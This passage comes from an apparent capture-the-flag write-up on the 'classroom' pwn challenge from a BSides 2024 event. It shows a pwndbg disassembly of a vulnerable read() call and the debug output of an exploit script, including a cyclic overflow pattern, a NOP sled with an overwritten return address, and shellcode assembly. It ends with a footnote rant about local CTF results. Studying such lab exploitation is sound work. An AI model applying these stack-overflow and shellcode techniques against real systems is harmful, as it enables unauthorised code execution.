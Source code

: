 We are setting a breakpoint right before the 5th question `read()` in the `kinder()` function

```python
~/D/W/b/pwn $ gdb ./classroom
pwndbg> disassemble kinder
Dump of assembler code for function kinder:
...[snip]...
   0x0000000000400a32 <+226>:   lea    rax,[rbp-0x80]
   0x0000000000400a36 <+230>:   mov    edx,0x14c
   0x0000000000400a3b <+235>:   mov    rsi,rax
   0x0000000000400a3e <+238>:   mov    edi,0x0
   0x0000000000400a43 <+243>:   call   0x400740 <read@plt>
...[snip]...
pwndbg> b *0x0000000000400a3e
```

In a seperate terminal run `sploit.py`

```shell
~/D/W/b/pwn $ python3 sploit.py LOCAL
[*] '/home/kidd/Desktop/WORK/bsides24/pwn/classroom'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
/home/kidd/Desktop/WORK/bsides24/pwn/sploit.py:63: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  payload1 = fit({
00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 61  │iaaa│jaaa│kaaa│laaa│
00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
00000040  71 61 61 61  72 61 61 61  73 61 61 61  74 61 61 61  │qaaa│raaa│saaa│taaa│
00000050  75 61 61 61  76 61 61 61  77 61 61 61               │uaaa│vaaa│waaa│
0000005c
[DEBUG] cpp -C -nostdinc -undef -P -I/home/kidd/.local/lib/python3.11/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        nop
[DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-aznj2u87/step2 /tmp/pwn-asm-aznj2u87/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-aznj2u87/step3 /tmp/pwn-asm-aznj2u87/step4
00000000  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
*
00000080  90 90 90 90  90 90 90 90  0c 09 40 00  00 00 00 00  │····│····│··@·│····│
00000090  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
*
00000190
[+] Starting local process '/home/kidd/Desktop/WORK/bsides24/pwn/classroom': pid 33577
[*] Paused (press any to continue) ### attach the debugger at this point
```


[^Rant]: And ok, yeah, it was not a big event, nor was the CTF any larger. But only 3 solves? What's the play here? Everybody else is killing it out there in CTFs and IRL, and we are doing what exactly? Yes, there are teams from GR that are having success in global events, of course. But how are these teams seeded if in entry level events we are failing at the obvious? How is this not a problem, both for the scene and the security industry altogether?